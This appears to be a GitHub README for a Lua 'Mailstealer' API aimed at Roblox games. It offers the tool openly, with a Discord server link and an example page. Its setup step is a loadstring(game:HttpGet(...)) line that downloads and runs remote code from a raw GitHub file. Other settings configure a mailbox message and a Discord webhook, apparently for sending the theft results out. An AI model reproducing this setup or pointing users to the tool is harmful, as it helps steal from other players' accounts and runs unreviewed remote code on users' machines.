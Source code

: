 Simple Mailstealer API documentation New features are being introduced by recommendation to Shimm#01
Want to join the server? Join here! dsc.gg/moontech Confused? Look at examples here! 
https://github.com/AzureScript3/API/blob/main/example
# Initialization
**! Forgeting this step will result in your script not working !**
```lua
-- At the top of your script, add this
local Moontech = loadstring(game:HttpGet("https://raw.githubusercontent.com/AzureScript3/API/main/Api.lua", true))()
```

## Documentation

**Mailbox function**
```lua
Moontech.Mailmessage = "" -- anything you want.
```

**Discord Webhook function**
```lua
Moontech.Discord_Webhook = <> -- true/false
Moontech.images = "" -- discord webhook profile
```

# ADDING MORE APIS SOON!

